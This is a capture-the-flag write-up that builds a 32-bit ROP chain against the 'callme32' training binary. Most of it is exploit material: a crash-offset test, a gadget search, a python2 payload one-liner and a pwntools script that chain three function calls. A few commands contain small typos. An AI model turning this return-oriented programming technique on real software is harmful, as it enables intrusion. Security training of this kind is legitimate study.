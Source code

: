 # Basic Test:

## Check call system into binary file
```bash
strace ./callme32
```

## Check protection into binary file
```bash
checksec ./callme32
```

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'

<br>

# Exploitation:

## Clear the kernel ring buffer
```bash
sudo dmesg -C
```

## Find offset for overwrite RIP
```bash
python2 -c 'print "A"*44 + "B"*4*' | ./callme32
```

## See output
```bash
sudo dmesg -T
```

	[dim. avril  9 14:20:16 2023] callme32[119719]: segfault at 42424242 ip 0000000042424242 sp 00000000ffb8f830 error 14 in libc.so.6[f7c00000+22000] likely on CPU 0 (core 0, socket 0)

## Find the a gadget for three parameters

```bash
ROPgadget --binary ./callme32 | grep "pop esi ; pop edi ; pop ebp"
```
 
	0x080487f9 : pop esi ; pop edi ; pop ebp ; ret

## Write the 3 function parameters

	args_1: BIG ENDIAN 0xdeadbeef => LITTLE ENDIAN \xef\xbe\xad\xde
	args_2: BIG ENDIAN 0xcafebabe => LITTLE ENDIAN \xbe\xba\xfe\xca
	args_3: BIG ENDIAN 0xd00df00d => LITTLE ENDIAN \x0d\xf0\x0d\xd0

## Find the address of the 3 functions
```bash
pwngdb> disass*usefulFunction
```

	   0x0804874f <+0>:     push   ebp
	   0x08048750 <+1>:     mov    ebp,esp
	   0x08048752 <+3>:     sub    esp,0x8
	   0x08048755 <+6>:     sub    esp,0x4
	   0x08048758 <+9>:     push   0x6
	   0x0804875a <+11>:    push   0x5
	   0x0804875c <+13>:    push   0x4
	   0x0804875e <+15>:    call   0x80484e0 <callme_three@plt>
	   0x08048763 <+20>:    add    esp,0x10
	   0x08048766 <+23>:    sub    esp,0x4
	   0x08048769 <+26>:    push   0x6
	   0x0804876b <+28>:    push   0x5
	   0x0804876d <+30>:    push   0x4
	   0x0804876f <+32>:    call   0x8048550 <callme_two@plt>
	   0x08048774 <+37>:    add    esp,0x10
	   0x08048777 <+40>:    sub    esp,0x4
	   0x0804877a <+43>:    push   0x6
	   0x0804877c <+45>:    push   0x5
	   0x0804877e <+47>:    push   0x4
	   0x08048780 <+49>:    call   0x80484f0 <callme_one@plt>
	   0x08048785 <+54>:    add    esp,0x10
	   0x08048788 <+57>:    sub    esp,0xc
	   0x0804878b <+60>:    push   0x1
	   0x0804878d <+62>:    call   0x8048510 <exit@plt>

## Payload final CLI

```bash
python2 -c 'print "A"*44 + "\xf0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" + "\x50\x85\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" + "\xe0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"' | ./callme32 # call callme_one = 0x80484f0 + pop esi ; pop edi ; pop ebp = 0x080487f9 + args1 = 0xdeadbeef + args2 = 0xcafebabe + args3 = 0xd00df00dcall + callme_two = 0x8048550 + pop esi ; pop edi ; pop ebp = 0x080487f9 + args1 = 0xdeadbeef + args2 = 0xcafebabe + args3 = 0xd00df00d + callme_three = 0x80484e0 + pop esi ; pop edi ; pop ebp = 0x080487f9 + args1 = 0xdeadbeef + args2 = 0xcafebabe + args3 = 0xd00df00d
```

## Python2 pwntools script
```python
#usr/bin/python2
from pwn import *

  

padding = "A"*44
pop_esi_pop_edi_pop_ebp = p32(0x080487f9)
args1 = p32(0xdeadbeef)
args2 = p32(0xcafebabe)
args3 = p32(0xd00df00d)
callme_one = p32(0x80484f0)
callme_two = p32(0x8048550)
callme_three = p32(0x80484e0)

  

payload = padding + callme_one + pop_esi_pop_edi_pop_ebp + args1 + args2 + args3
payload += callme_two + pop_esi_pop_edi_pop_ebp + args1 + args2 + args3
payload += callme_three + pop_esi_pop_edi_pop_ebp + args1 + args2 + args3

  

io = process("./callme32")
io.sendline(payload)
io.interactive()
```